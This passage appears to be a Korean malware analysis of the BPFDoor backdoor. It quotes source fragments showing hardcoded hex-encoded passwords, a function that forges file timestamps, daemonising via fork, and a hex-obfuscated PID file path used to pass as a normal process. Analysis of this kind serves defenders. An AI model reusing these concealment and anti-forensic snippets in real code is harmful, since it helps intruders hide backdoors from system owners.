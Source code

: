 현재 시스템 시간을 난수로 설정하고 10개의 문자열 중 하나를 랜덤으로 선택해 프로세스명을 변경한다  
변종에 따라 문자열은 달라질 수 있다  
<br>

---

```c
char hash[] = {0x6a, 0x75, 0x73, 0x74, 0x66, 0x6f, 0x72, 0x66, 0x75, 0x6e, 0x00}; // justforfun
char hash2[]= {0x73, 0x6f, 0x63, 0x6b, 0x65, 0x74, 0x00}; // socket
```

`hash`와 `hash2` 두 개의 암호가 헥스 배열로 하드코딩되어 있다  
변종에 따라 암호는 달라질 수 있다  

공격자가 어떤 암호를 사용하는지에 따라 BPFDoor가 수행하는 동작이 달라진다   
<br>

---

```c
static void setup_time(char *file)
{
        struct timeval tv[2];
 
        tv[0].tv_sec = 1225394236;
        tv[0].tv_usec = 0;
 
        tv[1].tv_sec = 1225394236;
        tv[1].tv_usec = 0;
 
        utimes(file, tv);
}
```

프로세스의 생성 시간 및 수정된 시간도 변경한다   
1225394236은 2008년 10월 31일 금요일 04:17:16 (KST)를 나타낸다  
<br>

---

복제된 프로세스(P1)를 실행시킨 후에 복제된 프로세스 파일을 삭제하고 프로세스명, 프로세스 생성 및 수정 시간을 변경하여 정상적인 프로세스처럼 보이도록 위장한다   

```c
if (fork()) exit(0);
```

P1은 자식 프로세스(P2)를 생성하고 P1을 종료한다  
자식 프로세스는 나중에 세션 리더가 되기 때문에 좀비 프로세스가 되지 않는다  
<br>

---

```c
pid_path[0] = 0x2f; pid_path[1] = 0x76; pid_path[2] = 0x61;
pid_path[3] = 0x72; pid_path[4] = 0x2f; pid_path[5] = 0x72;
pid_path[6] = 0x75; pid_path[7] = 0x6e; pid_path[8] = 0x2f;
pid_path[9] = 0x68; pid_path[10] = 0x61; pid_path[11] = 0x6c;
pid_path[12] = 0x64; pid_path[13] = 0x72; pid_path[14] = 0x75;
pid_path[15] = 0x6e; pid_path[16] = 0x64; pid_path[17] = 0x2e;
pid_path[18] = 0x70; pid_path[19] = 0x69; pid_path[20] = 0x64;
pid_path[21] = 0x00; // /var/run/haldrund.pid

close(open(pid_path, O_CREAT|O_WRONLY, 0644));
```
